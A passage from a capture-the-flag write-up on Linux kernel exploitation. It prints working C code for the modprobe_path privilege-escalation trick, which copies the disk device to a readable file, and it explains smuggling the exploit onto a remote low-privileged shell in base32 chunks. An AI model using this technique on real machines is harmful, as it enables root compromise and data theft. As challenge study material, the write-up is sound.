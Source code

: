 

The `get_flag` functions just simply sets up the `/tmp/x` binary, and tries to execute an executable with unknown magic bytes : 

```c
void get_flag(void){    
    // Prepare the post exploit script
    system("echo '#!/bin/sh\ncp /dev/vda /tmp/flag\nchmod 666 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    // Prepare the invalid binary
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");
	
    // Trigger the modprobe execute by executing the invalid binray
    puts("[*] Run unknown file");
    system("/tmp/dummy");

    // Prints the flag
    system("cat /tmp/flag");

    exit(0);
}
```



### :rocket: Sending the exploit remotely

Once we finished writing our exploit, there is a little bit more work to exploiting the remote instance.

We only have access to a TCP socket to interact with a low-privileged shell on the machine.

We have to find a way to upload the binary to the remote machine using only provided `busybox` utilities.

 

One utility that caught my attention is the `base32` one. Which is similar to the well known `base64` one, but with base32.

We can feed a base32 file in `/tmp` chunk by chunk by appending parts of the exploit inside the file, and then decoding it to recover the exploit binary.



A second thing is that we should rely on statically compiled binary, as remotely, the required libraries might not be there. Additionally, the binary must not be to big, as the remote machine has a timeout.

I chose to use `musl-gcc` to compile my exploit statically, it helps to produce binaries with a much smaller size than `gcc`.

For example : 

```
-rwxrwxr-x 1 voydstack voydstack 885K avril 24 23:55 exploit-gcc
-rwxrwxr-x 1 voydstack voydstack  50K avril 24 23:55 exploit-musl
```
